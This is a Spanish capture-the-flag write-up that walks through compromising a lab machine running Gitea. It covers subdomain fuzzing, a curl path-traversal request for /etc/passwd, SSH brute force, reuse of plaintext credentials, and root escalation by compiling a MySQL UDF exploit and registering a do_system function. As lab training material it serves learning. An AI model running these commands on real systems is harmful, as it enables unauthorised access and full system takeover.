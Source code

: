 nmap: 22, 80, 3000

![image](https://github.com/user-attachments/assets/19f5d5f2-4a90-4310-bbd4-14c4d074484e)

---

nos vamos a la pagina del puerto 80 y 3000

![image](https://github.com/user-attachments/assets/283cdfa3-b5ec-4a3c-991f-3de987903851)

![image](https://github.com/user-attachments/assets/cac418c6-5aa8-469d-b685-ca99582d7e5c)

en la pagina no hay mucho mas que información y en la pagina del puerto 3000 hay una versión pero no hay exploit de esa versión, solo de la 1.22.4 que es la versión anterior.
en el código fuente hay unos puntos importantes

![image](https://github.com/user-attachments/assets/ce7b0baa-b7cc-4ba5-bb70-d78531b01a98)

primero un URL que si la ingresamos a hosts nos enviara otra vez a la pagina del puerto 3000, y abajo hay un  "csrftoken"  con un código, pero la verdad que el código da unos números pero probablemente hay un login. 
ahora probando otra vez con la URL que encontramos en el código fuente la vamos modificando, entonces ingresamos un "gitea.dl" y veremos que tenemos un login

![image](https://github.com/user-attachments/assets/43f97f17-701f-4f35-bda2-c011ac2f4b13)

como vemos en los login da algunas credenciales pero no funcionan pero por si acaso la vamos a guardar. 

     admin@gitea.com 
    PassAdmin123-

ahora haremos un FFUF

     ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://gitea.dl -H "Host: FUZZ.gitea.dl" -fs 13615 

![image](https://github.com/user-attachments/assets/2e7dbd84-4137-443e-a09d-0ee7009e42f5)

nos da "dev" lo agregamos al hosts y nos da esta pagina

![image](https://github.com/user-attachments/assets/05956581-0749-4020-8a5f-b92ce366fd05)

como no tenemos mucho hacemos un gobuster para descubrir mas si es que tiene mas

     gobuster dir -u http://dev.gitea.dl/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64


![image](https://github.com/user-attachments/assets/80e2421b-114a-4f26-9292-8999e4a9289f)

nos dio uno llamativo que es "search" 

![image](https://github.com/user-attachments/assets/a2bc71b8-baca-4f8c-90ad-9ff1cb6689f8)

probamos pero no da nada y como vimos al principio en el código fuente da una URL que contiene este usuario creo yo, lo añadimos al hosts

![image](https://github.com/user-attachments/assets/40987377-ac21-483e-9b77-f593b40f2a2c)

obtenemos esta pagina pero al final de la pagina da un nombre que podría ser un usuario, pero no tiene muchas cosas mas, así que le seguimos buscando y haciendo otro FFUF

![image](https://github.com/user-attachments/assets/672314d3-5037-410a-a274-971939e3554e)

    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3cr3tdir.dev.gitea.dl -H "Host: FUZZ.s3cr3tdir.dev.gitea.dl" -fs 13615 

ahora hacemos lo mismo pero agregamos el "s3cr3tdir"

![image](https://github.com/user-attachments/assets/da39d60e-1ad4-425a-86db-9d23d4a835cc)

y como vemos tenemos lo mismo que vimos en el primer codigo que es el URL exactamente igual. 

![image](https://github.com/user-attachments/assets/e4ff1364-7c5e-4684-ab51-c989c3690ff7)

pero nos vamos a logear ahora para ver que hay. 

![image](https://github.com/user-attachments/assets/e2e4b9c1-e70a-4f24-83cb-7967c4ebb5f1)

nos iremos a explore y veremos esos 3 repositorios  y el que contiene un código es el 
myapp >> app.py

![image](https://github.com/user-attachments/assets/d7fe65e3-4e5b-4ad5-b287-4a5427fbac17)

y en esta linea tiene una vulnerabilidad

![image](https://github.com/user-attachments/assets/80bab679-f105-4f05-9313-42f17fe260ff)

a esa vulnerabilidad se le puede realizar un "path traversal" en la pagina principal o sea gitea.dl, así que podemos descargar archivos con esa vulnerabilidad o lograr visualizar 

lanzamos 

     curl "http://gitea.dl/download?filename=../../../../../etc/passwd"

![image](https://github.com/user-attachments/assets/84fca510-da6f-4769-a0da-0971b91dd0e2)

y vemos que nos entrega la información que esperamos, buscamos en los otros archivos otras funciones o códigos y encontramos esto

![image](https://github.com/user-attachments/assets/9f7db90f-7928-4ee7-a5fc-16f780298705)

probamos lo mismo pero con el código de info.txt

![image](https://github.com/user-attachments/assets/bf1346cf-0dd1-4ade-b7f4-223ea0709eaa)

nos da un error así que probamos, pero nos dice que hay un archivo de la información en /opt así que probamos suerte

![image](https://github.com/user-attachments/assets/ba45147a-eb4a-46da-b6af-ae6db5f9a380)

se logra la magia y tenemos usuarios y contraseñas como textos. pero no creo que esos son los usuarios reales, así que vamos hacer un ataque de fuerza bruta. 

creamos una carpeta con las contraseñas y hacemos una fuerza bruta con el usuario "designer" que es el usuario del git donde están los códigos. 

![image](https://github.com/user-attachments/assets/12dd3a10-60c2-4949-9c95-ef7ceb5c8e35)

obtenemos la contraseña de "ssh"

![image](https://github.com/user-attachments/assets/284c3fce-a6ca-43b9-86eb-412d780ece0a)

ingresamos con las credenciales y tenemos la flag de user

     4683f3b0c2f083bb9588370c0f8ab284

![image](https://github.com/user-attachments/assets/3b1385f7-eb6c-4a4e-bdd8-76146427a376)

como se ve tenemos un puerto abierto de forma local "127.0.0.1:3306"  y 3306 funciona con mysql y tenemos credenciales de un login así que probamos entrar a la base de datos con las credenciales que nos dio el login

      admin@gitea.com 
    PassAdmin123-

     mysql -u admin -pPassAdmin123-


![image](https://github.com/user-attachments/assets/a789dd0d-a870-4178-88b5-584369ca5407)

tenemos acceso a la base de datos, vamos a realizar esta escalada: https://docs.databricks.com/gcp/en/udf/ (User-Defined Functions) UDF  lo que es pocas palabras

     técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

entonces comenzamos con

    SHOW VARIABLES LIKE '%plugin_dir%';

![image](https://github.com/user-attachments/assets/c7ee88db-2796-4966-8079-d0024a778961)

     SHOW VARIABLES LIKE '%secure_file_priv%';

![image](https://github.com/user-attachments/assets/3c1fb019-8d91-4d75-8ada-bfb07c7df1b3)

![image](https://github.com/user-attachments/assets/af0d512b-67a1-4a40-abe3-083bfeea005c)

ahora buscamos una vulnerabilidad o exploit basado en este ataque 

![image](https://github.com/user-attachments/assets/a2ad8583-731c-452a-841a-7cb330ded993)

nos sirve el primero así que lo tomamos

![image](https://github.com/user-attachments/assets/adafc483-669e-427f-b637-c49f289f620a)

dentro de se exploit contiene un código que intenta cargar códigos o archivos en "system()" así que vamos a pasarlo a la maquina victima

![image](https://github.com/user-attachments/assets/b35d28dc-b272-40c1-b780-1cc6a4b7bc75)

ahora lanzamos estos comandos

    gcc -g -c 1518.c
      gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so 1518.o -lc

![[dockerlabs/medio/gitea/test31.png]]

tendremos los 3 documentos ahora movemos el exploit a plugins para que la cargue

     mv exploit_udf.so /usr/lib/mysql/plugin/

ahora nos vamos a la base de datos y nos conectamos creamos la función que haga referencia a la librería que agregamos o sea el exploit 

    CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';

![[dockerlabs/medio/gitea/test32.png]]

entonces el exploit cargado podemos ejecutar comando a nivel sistema, podemos por ejemplo cargar una reverse shell hacia nuestro puerto para conectarnos directo a root 

![[dockerlabs/medio/gitea/root.png]]

somos root! 

